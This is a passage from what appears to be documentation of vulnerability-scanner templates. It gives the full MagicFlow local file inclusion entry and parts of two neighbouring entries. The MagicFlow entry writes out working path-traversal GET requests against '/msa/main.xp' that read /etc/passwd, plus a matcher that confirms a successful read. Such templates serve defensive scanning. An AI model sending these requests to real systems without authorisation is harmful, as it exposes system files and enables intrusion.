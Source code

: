 ### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:

---

# MagicFlow - Local File Inclusion

## Description

- MagicFlow is susceptible to local file inclusion vulnerabilities because it allows remote unauthenticated users to access locally stored files on the server and return their content via the '/msa/main.xp' endpoint and the 'Fun' parameter.

- severity - high
- tags - magicflow,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/msa/main.xp?Fun=msaDataCenetrDownLoadMore+delflag=1+downLoadFileName=msagroup.txt+downLoadFile=../../../../../../etc/passwd
- {{BaseURL}}/msa/../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Longjing Technology BEMS API 1.21 - Local File Inclusion

## Description
